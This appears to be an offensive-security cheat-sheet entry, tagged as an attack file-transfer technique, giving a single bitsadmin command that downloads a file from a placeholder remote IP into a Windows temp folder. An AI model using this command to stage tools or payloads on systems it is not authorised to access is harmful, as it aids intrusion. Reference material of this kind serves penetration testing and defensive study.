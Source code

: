 # Bitadmins

% windows, certutil

## Download file with bitsadmin
#platform/windows #target/remote #cat/ATTACK/FILE_TRANSFERT 
```
bitsadmin /Transfer myJob http://<ip>/<file|file.txt> <path|C:\windows\temp>
```
